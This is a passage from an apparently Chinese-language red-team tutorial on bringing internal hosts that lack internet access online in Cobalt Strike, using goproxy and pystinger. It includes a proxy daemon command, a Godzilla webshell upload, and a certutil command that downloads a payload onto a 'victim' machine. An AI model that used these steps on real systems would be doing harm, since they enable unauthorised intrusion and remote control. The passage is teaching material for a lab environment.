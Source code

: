     
    
    proxy.exe http -t tcp -p "0.0.0.0:4444" --daemon

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173324.png)

###### Cobalt strike创建监听器，有效荷载选择Windows
Executable(S)，不然无法上线，然后利用Godzilla将该文件上传到web服务器供受害机2下载使用。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173326.png)

###### 受害机2执行如下命令，下载CS的有效载荷。

    
    
    certutil -urlcache -split -f http://10.10.19.100/goproxy_http.exe C:\Users\fujszzs\Desktop\goproxy_http.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173327.png)

###### 受害机2执行马儿成功上线。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173328.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173329.png)

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173320.png)
**小技巧2：**  

####  **利用pystinger上线不出网主机到Cobaltstrike**

#####  0x00.项目地址：

    
    
    https://github.com/FunnyWolf/pystinger

##### 0x01.测试环境

    
    
    攻击机（vps）：66.28.6.100
    
    受害机1（web）：10.10.19.50(映射到66.28.5.2)
    
    受害机2（Win10）：10.10.18.50

###### 网络拓扑：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173331.png)

###### FW2防护墙配置如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173332.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173333.png)
